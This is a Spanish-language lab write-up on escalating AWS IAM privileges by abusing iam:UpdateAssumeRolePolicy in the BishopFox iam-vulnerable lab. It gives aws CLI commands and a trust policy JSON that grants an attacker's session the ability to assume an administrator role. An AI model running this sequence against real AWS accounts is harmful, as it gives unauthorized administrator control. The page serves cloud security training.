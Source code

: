 # AssumeRolePolicy Update

Una **AssumeRolePolicy** (también denominada política de confianza), define qué entidades pueden asumir un rol. El permiso para actualizar una **AssumeRolePolicy** cae técnicamente en la categoría de escalada de privilegios "Permisos sobre políticas". Sin embargo, AssumeRolePolicy merece una categoría aparte debido a su importancia en los entornos de AWS, además del hecho de que a menudo se malinterpreta.

<figure><img src="../../../.gitbook/assets/image (13).png" alt=""><figcaption><p>MiPoliticaEC2</p></figcaption></figure>

La política llamada _MiPoliticaEC2_, especifica que el rol solamente puede ser asumida por el servicio EC2, como se indica en el objeto del JSON: “service”: “ec2.amazonaws.com”.

Cuando otra entidad del entorno (como un usuario u otro servicio) que intente asumir este rol AWS denegará la solicitud. Esta es una protección importante contra los intentos de escalar privilegios asumiendo un rol de privilegios elevados.

El permiso **iam:UpdateAssumeRolePolicy** proporciona a una entidad la capacidad de cambiar la **AssumeRolePolicy** de un rol. Por lo tanto, si un usuario no está incluido en esta política, pero tiene la capacidad de actualizarla, simplemente puede agregar su cuenta de usuario **AssumeRolePolicy**, y en consecuencia, asumir el rol. Según los permisos asociados con el rol, esto podría proporcionar una ruta para la escalada de privilegios.

## Laboratorio

{% embed url="https://github.com/BishopFox/iam-vulnerable#supported-privilege-escalation-paths" %}
Lab: IAM - Vulnerable | Escenario: privesc14
{% endembed %}

Usuario del laboratorio:privesc14-UpdatingAssumeRolePolicy-user con el rol:

<figure><img src="../../../.gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>

### Configuración inicial

Listar las políticas asociadas al usuario:

{% code overflow="wrap" %}
```
aws iam list-attached-user-policies --user-name privesc14-UpdatingAssumeR olePolicy-user
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (50).png" alt=""><figcaption></figcaption></figure>

Después, usando el ARN del nombre de la política se puede listar los permisos:

{% code overflow="wrap" %}
```
aws iam get-policy-version --policy-arn arn:aws:iam::651927172911:policy/privesc14-UpdatingAssumeRolePolicy --version-id v1
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

Ahora se tiene que generar llaves de acceso para trabajar con el usuario:

{% code overflow="wrap" %}
```
aws sts assume-role --role-arn arn:aws:iam::651927172911:role/privesc14- UpdatingAssumeRolePolicy-role --role-session-name privesc14
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

Y configurar el acceso con AWS configure:

```bash
aws configure --profile privesc14
```

<figure><img src="../../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

Y validar las llaves:

```bash
aws sts get-caller-identity --profile privesc14
```

<figure><img src="../../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

### Explotación

En este escenario, se tiene que crear un documento de política que contenga el permiso **sts:AssumeRole** sobre el ARN del usuario atacante

{% code title="assumerolepolicy.json" overflow="wrap" %}
```json
{
    "Version": "2012-10-17",
    "Statement": [
        {
            "Effect": "Allow",
            "Principal": {
                "AWS": "arn:aws:sts::651927172911:assumed-role/privesc14-UpdatingAssumeRolePolicy-role/privesc14"
            },
            "Action": "sts:AssumeRole",
            "Condition": {}
        }
    ]
}

```
{% endcode %}

{% hint style="info" %}
El ARN del usuario que se encuentra en nuestra política maliciosa es el valor resultante del comando aws sts get-caller-identity
{% endhint %}

A continuación, se tiene que modificar la política para un rol administrativo con el permiso **update-assume-role-policy** , con el objetivo de que el usuario privesc14 pueda asumir dicho rol:

{% code overflow="wrap" %}
```
aws iam update-assume-role-policy --role-name Rol-Administrator --policy-document file://assumerolepolicy.json --profile privesc14
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (51).png" alt=""><figcaption></figcaption></figure>

Listando el rol que se acaba de de actualizar se puede observar que tiene capacidades de administrador

<figure><img src="../../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

Dado que el rol apunta ahora a nuestro usuario y el usuario tiene capacidades de asumir roles, procedemos a asumir el rol actualizado malicioso:

{% code overflow="wrap" %}
```
aws sts assume-role --role-arn arn:aws:iam::651927172911:role/Rol-Administrator-Spartan --role-session-name privesc14admin --profile privesc14
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (46).png" alt=""><figcaption></figcaption></figure>

Con las nuevas credenciales se proceden a configurar en aws configure con un nuevo perfil

```
aws configure --profile privesc14admin
```

<figure><img src="../../../.gitbook/assets/image (26).png" alt=""><figcaption></figcaption></figure>

Y dado que este rol ahora tiene permisos de administrador, podemos decir que se a comprometido exitosamente.





